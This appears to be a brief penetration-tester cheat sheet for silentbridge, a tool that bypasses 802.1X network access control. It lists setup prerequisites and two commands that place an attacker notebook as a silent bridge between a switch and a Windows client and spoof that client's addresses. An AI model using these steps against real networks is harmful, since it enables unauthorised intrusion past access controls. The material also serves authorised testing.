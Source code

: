 ### source
https://github.com/s0lst1c3/silentbridge  

### required informations
```
disable DHCP and Network-Manager for used interfaces

upstream > attacker notebook to NAC ethernet port - example <interface1>  
physical > attacker notebook to windows client - example <interface2>  

get RADIUS switch MAC address (wireshark filter for eap) - example <mac1>  

get IP address of windows client - example <ip>  
get MAC address of windows client - example <mac2>  
get MAC address of default gateway - example <mac3>  
C> ipconfig /all  
```

### start silent bridge and listen
```
$> ./silentbridge --create-bridge --upstream <interface1> --phy <interface2> --sidechannel <interface1>
```

### start interactive mode
```
$> ./silentbridge --add-interaction --gw-mac <mac3> --client-ip <ip> --upstream <interface1> --client-mac <mac2> --phy <interface2> --switch-mac <mac1> --sidechannel <interface1>
```

